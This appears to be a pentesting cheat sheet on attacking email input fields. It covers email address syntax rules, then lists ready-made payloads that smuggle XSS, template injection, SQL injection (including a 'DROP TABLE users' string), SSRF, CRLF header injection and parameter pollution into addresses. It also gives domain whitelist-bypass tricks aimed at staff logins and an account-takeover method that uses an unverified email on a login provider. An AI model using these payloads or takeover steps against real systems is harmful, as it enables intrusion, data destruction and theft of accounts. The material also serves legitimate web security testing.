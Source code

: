 # Exploit Email
- Email contains local part and domain part separated by @
### Rules Specificly For local part
- A-Z and (a-z)
- 0 to 9
- ... (dot in middle)
- !#$%&'*+-/=?^_`{|}~ (printable characters)
- International Characters (ex : turkish names )

## I you quote local part of email you can add anything almost anything even emoji
- "@@@''@\"@gmail.com (quote and back slashes)
- "@"@example.com (@)
- " "@example.com (spaced and tabs)
- "emoji"@gmail.com (emojis)

### Rules For Domain Part
- More Strict
- Latin Letters (Upper and Lower)
- Digits
- - (Hyphen), not as first or last character
- quare bracket to include IP rahim@[127.0.0.1] or rahim@[ipv6:2001:db8::1]

### Special Cases
- + , - {} in rare occasion can be used for tagging
- rahim+hacker@example.com == rahim@example.com
- Comments as rahim(i am a comment)@example.com == rahim@example.com

# SOme Valid Payloads
```bash
XSS : 
test+(<script>alert(0)</script>)@gmail.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com

TEMPLATE INJECTION :
"<%= 7*7 %>"@example.com
test+(${{7*7}})@example.com

SQLi : 
"' OR 1=1 --"@example.com
"mail')DROP TABLE users;--"@example.com

SSRF : 
john@burpcollan.net
john@[127.0.0.1]

Parameter Pollution : 
victim&attacker=attacker@example.com

Email Header Injection :
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com

Wildcard Abuse : 
%@example.com
```


### Email White Listing Bypass
- rahim(;rahim@gmail.com;)@company.com
- rahim@rahim.io(@company.com)
- rahim+(@company.com)@gmail.com

Use them where staffs can login 


# Exploit 1 
- i have a account in github with rahim@gmail.com
- Then i created a account in yahoo with rahim@gmail.com but did'nt verify that
- Now i logged in with yahoo in my target and account takeover


